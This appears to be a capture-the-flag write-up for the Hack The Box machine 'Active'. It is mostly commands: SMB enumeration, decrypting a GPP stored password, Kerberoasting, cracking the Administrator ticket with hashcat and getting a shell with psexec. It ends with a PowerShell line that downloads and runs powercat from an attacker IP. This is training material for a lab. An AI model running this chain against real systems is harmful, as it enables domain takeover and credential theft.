

# Introdution

This box is a Windows Easy. We’ll start enumerate SMB, where the `Replication` share will find. There’re a file that contains a user and a pass encrypted with GPP. After to decrypt the pass, we will do a **Kerberoasting Attack.** We’ll get the hash Administrator user.

**Have a good time!**

## Diagram



# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.100 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.100
```


The `active.htb` domain was found, let’s insert in `/etc/hosts`

## **SMB - TCP 139/445**

Lets enumerate the SMB using the `smbclient`*.*

```bash
smbclient -N -L //10.10.10.100
```


The `Replication` share was found and we can access it.

### Share Replication - SMB

```bash
smbclient -N //10.10.10.100/replication
```

There’re some files interesting.

- ***/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml***


We have userName and a probable password.

```
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

> **Senhas GPP**
> 
> 
> Whenever a new Group Policy Preference (GPP) is created, there is an xml file created on the SYSVOL share with this configuration data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before storing it as `cpassword`. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!
> 
> Microsoft released a patch in 2014 that prevented administrators from putting passwords in GPP. But this patch does nothing about any of those breakable passwords that were already there, and as I understand it, pentesters are still regularly encountering them in 2018. For more details, check out this [AD security post](https://adsecurity.org/?p=2288).
> 

## Decrypting the GPP Password

Since the key is know, I can decrypt the pass. Kali have a tool called `gpp-decrypt` that It’ll this.

`gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

We found the pass for user **active.htb\SVC_TGS** : **GPPstillStandingStrong2k18**

## Enumerating SMB

With the username and password, let's enumerate the smb with the credential.

```
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```


We gain access to three more shares: `NETLOGON, SYSVOL, Users`

### Shares Users - SMB

```
smbclient //10.10.10.100/Users -U "active.htb\\SVC_TGS%GPPstillStandingStrong2k18"
```


The `Users` share is the directory `C:\Users`

In `/users/SVC_TGS/Desktop/`, We found the `user.txt`, which contains a flag. 

# Exploration

## **Kerberoasting**

We'll use the **active.htb/SVC_TGS**:`GPPstillStandingStrong2k18` credentials to get a list of service usernames that are associated with regular user accounts.

We found a user: Administrator

```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```


It also gives me the ticket, which I can try to brute-force decrypt to get the user's password:

```
cat GetUserSPNs.out
```

Cracking the hash:

```
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```


We found the pass to **Administrator**:`Ticketmaster1968`

### Getting the **Shell**

With the credencials found, We log through **psexec**:

```bash
impacket-psexec active.htb/administrator@10.10.10.100
```

---

# Post Exploration

**Access:**

**Administrator**:**Ticketmaster1968**

```bash
impacket-psexec active.htb/administrator@10.10.10.100
```

We have shell root.


## **Spawn Shell**

```powershell
powershell -c iex(new-object system.net.webclient).downloadstring('http://10.10.14.4/powercat.ps1')
```